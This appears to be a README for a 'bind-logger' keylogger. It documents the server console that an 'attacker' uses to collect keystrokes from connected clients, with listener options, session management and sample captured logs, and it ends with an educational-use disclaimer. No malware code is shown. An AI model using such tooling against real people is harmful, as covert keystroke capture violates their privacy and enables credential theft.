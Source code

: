 
# Server
The server provides the interface the "attacker" will use to receive keylogging data. Clients will make a connection to this server on the IP and Port specified when the listener is started.

**message displayed on server when a client makes a connection**
```
bind-logger:> 

[CONNECTION] > Connection from 127.0.0.1:1069

```

## Commands

**help command** - displays the list of available commands
```
bind-logger:> help

               sessions | List all active sessions.
      logs <session_id> | Display the logs of specified session.
      save <session_id> | Save the logs of specified session to a file.
 set <variable> <value> | Change the value of one of the available options.
                   help | Display this list.
                options | Display a list of variable options.
                  start | Run the keylogger connection listener
                   kill | Stop a specified session/client connection.      
                   exit | Shutdown listener server and close all sessions. 

```

**options command** - displays current state of variable options
```
bind-logger:> options

   LHOST | 127.0.0.1
   LPORT | 6666

```

**set command** - assigns specified value to specified variable
```
bind-logger:> set LPORT 9821

[SUCCESS] > Set LPORT to 9821

```

**start command** - start the keylogger client connection listener
```
bind-logger:> start

[LISTENER] > Listening on 127.0.0.1:6666

```

**sessions command** - list active sessions session_id | client_address:client_port | log_length
```
bind-logger:> sessions
 1 | 127.0.0.1:8464 | 10
 2 | 127.0.0.1:9283 | 152

```

**kill command** - terminate a specified client connection
```
bind-logger:> kill 1

[DISCONNECT] > Session 1 (127.0.0.1:1093) - Logs Saved

```

**logs command** - displays the logs of specified session
```
bind-logger:> logs 1

Keyboard logs from - Session 1 (127.0.0.1:8464)
--------------------------------

hello awpiudhbaw9dghaw-09d87gbaw-uda

```

**save command** - saves the logs of specified session to a file
```
bind-logger:> save 1
[SUCCESS] > Logs written to file log-127.0.0.1_08-24-2021_15-31-11.txt
```

**exit command** - closes all sessions and exits application
```
bind-logger:> exit

[EXIT] > Stopped.

```

##  **THIS REPOSITORY IS PURELY FOR DEMONSTRATION/EDUCATIONAL PURPOSES**